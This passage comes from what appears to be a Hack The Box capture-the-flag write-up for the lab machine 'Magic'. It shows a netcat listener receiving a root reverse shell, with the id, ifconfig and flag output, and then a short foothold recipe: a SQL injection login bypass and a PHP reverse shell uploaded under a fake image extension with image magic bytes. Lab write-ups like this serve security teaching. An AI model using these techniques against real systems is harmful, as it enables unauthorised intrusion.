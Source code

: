 For completeness sake, here's the root shell:

```
root@kali:~/htb/magic/image_payload# nc -lvnp 8934
listening on [any] 8934 ...
connect to [10.10.15.245] from (UNKNOWN) [10.10.10.185] 35656
root@ubuntu:/tmp/tmp.LLJnt97Prw# cd /root
cd /root
root@ubuntu:/root# id
id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
root@ubuntu:/root# hostname
hostname
ubuntu
root@ubuntu:/root# ifconfig
ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.185  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:81aa  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:81aa  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:81:aa  txqueuelen 1000  (Ethernet)
        RX packets 549606  bytes 66336241 (66.3 MB)
        RX errors 0  dropped 919  overruns 0  frame 0
        TX packets 428701  bytes 213461624 (213.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 94894  bytes 6794910 (6.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 94894  bytes 6794910 (6.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@ubuntu:/root# cat root.txt
cat root.txt
REDACTED_HASH
```

Box done!

## TL;WH - Too Long; Wanna Hack

Since some people are always in a rush, here's the abridged version.

Foothold:
* Find port 80 open with apache server
* Find login page, bypass it using typical SQL injection (`' OR 1=1;--`)
* Upload PHP reverse shell with `.php.<image-ext>` file extension and magic bytes of one of those image types. Possible types are JPG, JPEG and PNG
* Make a request to the uploaded image at `http://10.10.10.185/images/uploads/<your-file>`
* Receive the reverse shell running as `www-data`
